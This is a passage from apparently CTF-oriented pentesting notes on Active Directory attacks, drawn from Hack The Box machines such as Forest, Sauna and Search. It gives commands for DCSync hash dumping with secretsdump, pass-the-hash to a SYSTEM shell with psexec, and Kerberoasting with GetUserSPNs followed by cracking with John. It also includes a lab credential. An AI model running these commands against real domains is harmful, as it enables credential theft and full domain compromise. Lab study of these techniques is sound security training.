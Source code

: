 <figure><img src="../../../.gitbook/assets/Capture.PNG" alt=""><figcaption><p>GetChanges in BloodHound</p></figcaption></figure>

* Also be sure to look in “Dangerous Rights” within BloodHound.
* HTB Example: _**Forest/Sizzle**_

```python
secretsdump.py egotistical-bank/svc_loanmgr@<IP> -just-dc-user Administrator

# Obtain Administrator hash

psexec.py egotistical-bank.local/administrator<IP> -hashes <admin_hash_here>

C:\\Windows\\system32> whoami

nt authority\\system
```

## Kerberoasting vs. AS-REPRoasting

*   <mark style="color:red;">Kerberoasting</mark> means that <mark style="background-color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. This can be accomplished with the script below.

    * Check if the user has a SPN with the following command:

    ```python
    Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

    # The SPN will appear as RESEARCH/web_svc.search.htb:60001
    # You will also get a hash, save it and crack with John

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    ```
*   <mark style="color:red;">AS-REPRoasting</mark> means that <mark style="background-color:yellow;">Kerberos Pre-Authentication is disabled on that user</mark>. You will also receive a TGT hash that can then be cracked. This can be accomplished with the script below.
